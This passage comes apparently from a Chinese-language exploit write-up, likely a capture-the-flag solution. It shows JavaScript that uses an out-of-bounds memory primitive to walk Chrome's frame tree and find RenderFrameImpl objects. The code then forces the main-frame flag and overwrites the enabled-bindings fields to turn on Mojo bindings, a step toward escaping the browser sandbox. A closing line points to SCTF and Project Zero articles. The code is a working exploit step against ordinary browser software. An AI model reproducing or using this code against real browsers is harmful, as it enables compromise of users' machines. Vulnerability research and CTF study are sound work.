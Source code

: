 ```javascript
    }
    
    let root_ptr = oob.getUint64(g_frame_map_ptr+0x10n);
    print('[*] root_ptr: 0x' + root_ptr.toString(16));

    let allNode = [];
    let queue = [];

    queue.push(root_ptr);
    
	// find all frame
    while(queue.length != 0){
        let rootNode = queue.pop();
        let leftNode = oob.getUint64(rootNode);
        let rightNode = oob.getUint64(rootNode+8n);
        if(leftNode != 0n)
            queue.push(leftNode);
        if(rightNode != 0n)
            queue.push(rightNode);
        allNode.push(rootNode);
    }

    // enable all
    for(let i = 0;i < allNode.length;i++){
        // content::RenderFrameImpl
        let ptr = allNode[i];
        let render_frame_ptr = oob.getUint64(ptr + 0x28n);
        print('[*] render_frame_ptr: 0x' + render_frame_ptr.toString(16));
        {
            let is_main_frame = oob.getUint8(render_frame_ptr + kIsMainFrameOffset);
            print('[*] is main frame: ' + is_main_frame.toString(16));
            if(is_main_frame == 0){
                print("[!] not in main frame");
                oob.setUint8(render_frame_ptr + kIsMainFrameOffset, 1);
            }
        }
        let enabled_bindings = oob.getUint32(render_frame_ptr + kEnabledBindingsOffset);
        print('[*] enabled_bindings:  0b' + enabled_bindings.toString(2));
        oob.setUint32(render_frame_ptr + kEnabledBindingsOffset, 2);
        oob.setUint32(render_frame_ptr + kEnabledMojoBindingOffset, 1);
        enabled_bindings = oob.getUint32(render_frame_ptr + kEnabledBindingsOffset);
        print('[*] new enabled_bindings:  0b' + enabled_bindings.toString(2));
    }

    print('  [*] reloading');
    // window.location.reload();
}

```

其中寻找RenderFrameImpl对象在SCTF和p0的文章中都有提到，就不多赘述了
